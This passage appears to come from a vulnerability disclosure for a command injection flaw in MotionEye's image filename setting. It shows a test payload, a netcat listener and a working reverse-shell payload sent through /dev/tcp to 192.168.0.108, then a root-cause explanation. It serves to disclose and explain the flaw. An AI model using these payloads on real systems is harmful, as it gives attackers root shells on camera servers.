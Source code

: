 ### 9. Payload Execution    
Now payload can be directly entered without any validation: set as below and Apply the settings    

Settings:  
- Capture mode = Interval Snapshots  
- Interval = 10  
- Image File Name:  
```bash
$(touch /tmp/test).%Y-%m-%d-%H-%M-%S
```
<img width="565" height="344" alt="image" src="https://github.com/user-attachments/assets/22a7495d-b5e6-4d7a-8cc2-9f0375c17015" />

Applied → File created with **root permissions**.  

<img width="554" height="164" alt="image" src="https://github.com/user-attachments/assets/70b2363f-fa1e-47d6-9d39-bdf4693c6929" />


---

## Impact: Weaponizing RCE    
simple reverse shell production:    


Listener:
```bash
nc -lvnp 4444
```
<img width="303" height="110" alt="image" src="https://github.com/user-attachments/assets/c418d646-52bc-4349-b291-1162f978233c" />


Injected Payload:
```bash
$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/192.168.0.108/4444 0>&1\"')").%Y-%m-%d-%H-%M-%S
```
<img width="1140" height="366" alt="image" src="https://github.com/user-attachments/assets/54ffbcc1-799f-4833-9470-edba112510e5" />


Result: Remote shell obtained.  


---

## Root Cause & Flow    
MotionEye is vulnerable because it takes user input from the web dashboard and writes it straight into the Motion config files without checking for dangerous characters. For example, the field image_file_name in the UI is sent to the backend (config.py) and saved into /etc/motioneye/camera-<id>.conf. When MotionEye restarts the Motion service (motionctl.start), the Motion process reads this config file. If the picture_filename field contains shell syntax like $(touch /tmp/test), Motion will run it as a real command instead of treating it as part of the filename.    

Unsanitized input written into Motion config files:  
`Dashboard JS → ConfigHandler.set_config() → camera-1.conf → motionctl.restart() → motion parses picture_filename → executes payload`

---